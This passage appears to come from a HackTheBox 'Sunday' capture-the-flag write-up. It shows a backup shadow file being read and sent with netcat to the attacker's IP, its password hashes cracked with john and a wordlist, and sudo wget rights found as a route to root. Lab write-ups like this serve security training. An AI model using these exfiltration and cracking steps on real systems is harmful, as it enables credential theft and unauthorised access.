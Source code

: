 Ah! It looks like there are some interesting files in `/backup`.

```bash
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Could these hashes be cracked? Lets transfer the file to our machine using netcat!

```bash
- Own Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# nc -l -p 1234 > shadow.backup  

- SSH Shell -
sunny@sunday:/backup$ nc -w 3 10.10.14.5 1234 < shadow.backup 

- Own Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# ls
finger-user-enum-1.0  shadow.backup
```

Alright! Now, we can use `john` to try and crack the hashes.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt shadow.backup 
...
sunday           (sunny)     
cooldude!        (sammy)     
...
```

Nice! We got the password for `sammy`.

Lets `su` to `sammy` and see what can she do!

```bash
sunny@sunday:~$ su sammy
Password: cooldude!
sammy@sunday:~$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Hmm.. it seems like she can run `wget` with privileges. Shall we write a new `troll` script to execute a bash shell?
